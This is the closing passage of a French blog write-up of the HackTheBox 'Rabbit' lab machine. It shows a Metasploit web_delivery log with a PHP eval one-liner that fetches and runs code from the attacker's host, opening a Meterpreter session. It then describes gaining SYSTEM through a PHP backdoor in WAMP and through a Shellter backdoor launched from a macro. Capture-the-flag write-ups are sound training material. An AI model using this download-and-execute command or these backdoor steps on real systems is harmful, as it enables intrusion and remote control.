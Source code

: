 ```plain
msf exploit(multi/script/web_delivery) > exploit -j
[*] Exploit running as background job 4.

[*] Started reverse TCP handler on 10.10.14.20:1478 
[*] Using URL: http://10.10.14.20:8080/s4380f
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://10.10.14.20:8080/s4380f'));"
msf exploit(multi/script/web_delivery) > [*] 10.10.10.71      web_delivery - Delivering Payload
[*] Sending stage (37775 bytes) to 10.10.10.71
[*] Meterpreter session 1 opened (10.10.14.20:1478 -> 10.10.10.71:37732) at 2018-05-22 20:23:19 +0200
```

Final pwnage
------------

La dernière étape aura été la plus simple. Pour avoir déjà croisé WAMP dans un pentest je sais que [ce dernier fait tourner les scripts avec les droits SYSTEM](http://devloop.users.sourceforge.net/index.php?article128/tales-of-pentest-1-celui-qui-donnait-la-permission-file).  

![HackTheBox Rabbit php code running as SYSTEM](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/rabbit_whoami_upload_joomla.png)

Dès lors il suffisait de placer une backdoor PHP sous la racine du Apache et on pouvait accéder au flag de l'administrateur.  

![HackTheBox Rabbit root flag](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/rabbit_root_flag.png)

Autant vous dire que j'étais content que ce CTF soit enfin terminé :D Ça a été très fun de jouer avec les macros mais ça aurait été encore plus fun si l'expérience n'avait pas été aussi irritante (on se demande pourquoi autant de tentatives ont échouées alors qu'elles fonctionnait parfaitement en ayant recréé l’environnement en local).  

En jouant une nouvelle fois avec la machine plus tard j'ai vu que l'on pouvait tout simplement faire exécuter une backdoor générée via *Shellter* en appelant un chemin UNC dans la macro. Bien sûr le comportement du *Meterpreter* pouvait être détecté en fonction de l'action utilisée.

*Published August 18 2018 at 21:47*